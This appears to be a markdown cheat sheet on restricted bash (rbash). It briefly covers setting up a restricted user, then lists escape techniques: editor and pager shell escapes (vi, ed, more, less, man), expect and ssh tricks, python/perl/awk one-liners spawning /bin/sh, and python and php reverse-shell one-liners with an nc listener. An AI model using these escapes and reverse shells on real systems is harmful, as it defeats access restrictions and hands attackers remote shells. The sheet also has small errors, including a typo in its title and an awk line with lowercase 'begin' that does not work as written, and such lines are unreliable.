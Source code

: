 # rbash

restired bash

## setup

### enabling for a user

    cd /bin
    ln -s bash rbash

    useradd -m ruser
    usermod --shell /bin/rbash ruser

    grep -rni ruser /etc/passwd

### start directly

    bash -r

    cd /etc/
    -rbash: cd: restricted

## bypass rbash

### editors

#### vi

    :set shell=/bin/bash
    :shell
    cd /etc

#### ed

    ed
    !'/bin/sh'
    cd /etc
    exit
    q

### one liner

#### python

    python -c "import os; os.system('/bin/sh')"
    
#### perl

    perl -e "system('/bin/sh')"

#### awk

    awk 'begin {system("/bin/sh")}'
    cd /etc; pwd

### reverse shell

    # listen
    nc -lvp 13666

#### python

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1", 13666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#### php

    php -r '$sock=fsockopen("127.0.0.1", 13666);exec("/bin/sh -i <&3 >&3 2>&3");'

### system binaries

#### more

    more long-file.txt
    !sh

#### less

    less file.txt
    !sh

#### man

    man man
    !sh

### expect

    expect
    spawn sh
    cd /etc

### ssh

    ssh ruser@127.0.0.1  -t "bash --noprofile"
    cd /etc
